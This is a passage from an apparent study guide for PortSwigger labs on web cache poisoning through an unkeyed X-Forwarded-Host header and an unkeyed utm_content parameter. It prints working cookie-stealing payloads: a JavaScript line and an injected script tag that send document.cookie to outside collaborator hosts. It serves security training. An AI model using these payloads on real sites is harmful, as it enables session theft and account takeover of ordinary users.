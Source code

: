 ```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
```  

![tracking.js](images/tracking.js.png)  

>Hosting on the exploit server, injecting the **```X-Forwarded-Host```** header in request, and poison the cache until victim hits poison cache.  

```
/resources/js/tracking.js
```  
  
![exploit host tracking.js](images/exploit-host-tracking-js.png)  
  
>Body send session cookie to collaboration service.  
  
```javascript
document.location='https://collaboration.net/?cookies='+document.cookie;
```  

>Keep **Poisoning** the web cache of target by resending request with ```X-Forwarded-Host``` header.  

![x-cache-hit.png](images/x-cache-hit.png)  

[PortSwigger Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)  

>Youtube video showing above lab payload on exploit server modified to steal victim cookie when victim hits a cached entry on back-end server. The payload is the above JavaScript.  

[YouTube: Web cache poisoning with unkeyed header - cookie stealer](https://youtu.be/eNmF8fq-ur8)  
  
[Param Miner Extension to identify web cache vulnerabilities](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943)  
  
### Unkeyed utm_content  

>Target is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. Param Miner's "Guess GET parameters" feature will ***identify*** the parameter as utm_content.  

![Cache query reflected](images/cache-query-reflected.png)  
  
```
GET /?utm_content='/><script>document.location="https://Collaborator.com?c="+document.cookie</script>
```  

>Above payload is cached and the victim visiting target cookie send to Burp collaborator.  

![cache-collaborator.png](images/cache-collaborator.png)  

[PortSwigger Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)  

### Cloaking utm_content  
